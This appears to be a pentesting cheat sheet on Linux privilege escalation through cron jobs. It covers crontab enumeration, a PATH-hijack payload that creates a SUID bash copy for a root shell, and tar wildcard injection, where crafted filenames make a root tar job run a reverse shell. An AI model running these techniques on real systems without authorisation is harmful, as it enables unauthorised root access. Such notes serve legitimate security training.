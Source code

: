 # Cron Jobs

Quick check crontabs:

```bash
crontab -l
ls -al /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

System-wide crontabs location:

```bash
/etc/crontab
```

User owned crontabs:

```bash
/var/spool/cron/
/var/spool/cron/crontabs/
```

If you can overwrite one of the scripts run in a root crontab, then you can easily gain a root shell when the job is run.

**Check file permissions for scripts run by cron**.

Pay special attention to cron jobs that run often (e.g. every X minutes or seconds). If something is only run once per month you might be in for a long wait.


## Pspy

Cron is not the only way to regularly execute tasks. And you cannot always keep track of every cron tasks just by looking at readable files.

A particularly handy tool for observing what gets executed over time is **psypy** - https://github.com/DominicBreuker/pspy

Just keep it running for a while and look for scripts and odd binaries that get executed by root (UID=0) or your target user regularly.


## Relative path PrivEsc

In system wide crontab:

```bash
$ cat /etc/crontab
...
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/example.sh
```

The default PATH environment used by cron is `/usr/bin:/bin`, which is rather limiting. But often a bunch of custom path locations are defined in the crontab.

If a cronjob program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cronjob.

Example:

```bash
$ cat /etc/crontab
...
PATH=/home/cereal:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
...
* * * * * root highjackme.sh
* * * * * root /usr/local/bin/something.sh
```

Here the script `highjackme.sh` does not have an absolute path.

In this rather blatant example the path `/home/cereal` is right at the start of the cron PATH environment. Since we are the user "cereal" we can obviously write there.

If we create a file with the same name:

```bash
touch /home/cereal/highjackme.sh
chmod +x /home/cereal/highjackme.sh
```

Then we can highjack the cronjob. Fill the sh file with your exploit, e.g.:

```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

After the cron job has run, gain root:

```bash
/tmp/rootbash –p
```


## Wildcards

Let's say there is a system-wide crontab:

```bash
$ cat /etc/crontab
...
* * * * * root /usr/local/bin/example.sh
```

The content of `example.sh` printed:

```bash
$ cat /usr/local/bin/example.sh
```
```bash
#!/bin/sh
cd /home/alexander
tar czf/tmp/backup.tar.gz *
```

There is a wildcard (*) at the end of the tar command.

What this does is simply include all the filenames in the current directory as parameters to the tar command, e.g.:
```bash
$ echo *
somefile.txt anotherfile.js backups logs
```

This is rather dangerous since we can name files after parameters to the tar command.

Checking https://gtfobins.github.io/ tells us that the tar command can be used to execute binaries as part of a checkpoint feature.

Now if we create two files in the directory where the tar command is being run:

```bash
touch "/home/user/--checkpoint=1"
touch "/home/user/--checkpoint-action=exec=reverseshell.elf"
```

This will make the tar command execute our reverseshell.elf binary (which should be located in the same directory /home/alexander).

Note that slashes (/) are not allowed in filenames.

